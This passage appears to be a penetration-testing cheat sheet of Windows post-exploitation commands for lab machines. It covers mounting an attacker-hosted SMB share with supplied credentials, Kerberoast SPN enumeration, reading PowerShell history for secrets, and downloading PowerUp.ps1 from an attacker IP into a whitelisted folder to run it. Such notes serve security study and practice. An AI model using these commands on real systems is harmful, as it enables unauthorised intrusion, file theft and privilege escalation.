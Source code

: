 ```bash
target@10.10.10.10: > $pass = convertto-securestring 'test123' -AsPlainText -Force
target@10.10.10.10: > $pass  # StdOut correct is System.Security.SecureString
target@10.10.10.10: > $cred = New-Object System.Management.Automation.PSCredential('javali', $pass)
target@10.10.10.10: > $cred  # StdOut correct is:
							 # UserName                     Password
							 # --------                     --------
							 # javali   System.Security.SecureString
target@10.10.10.10: > New-PSDrive -Name javali -PSProvider FileSystem -Credential $cred -Root \\10.10.14.3\smbshare
target@10.10.10.10: > cd javali:  # This is the share drive
```

## 13.2. SMB mount and transfere

```bash
kali@kali: > impacket-smbserver smbshare $(pwd) -smb2support -user javali -password test123
```

# 14. SeImpersonatePrivilege

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

# 16. Enumeration

```powershell
Get-LocalUser
setspn -T medin -Q */*  # Enumerar SPN (Kerberoast attack)
```

# 17. WhiteList Directory

```powershell
C:\Windows\System32\spool\drivers\color
```

# 18. ConsoleHost_history

```powershell
Get-Content %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

# 19. PowerUp.ps1

```powershell
cd C:\Windows\System32\spool\drivers\color
Invoke-WebRequest http://10.11.30.195:8000/PowerUp.ps1 -OutFile C:\Windows\System32\spool\drivers\color\PowerUp.ps1
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
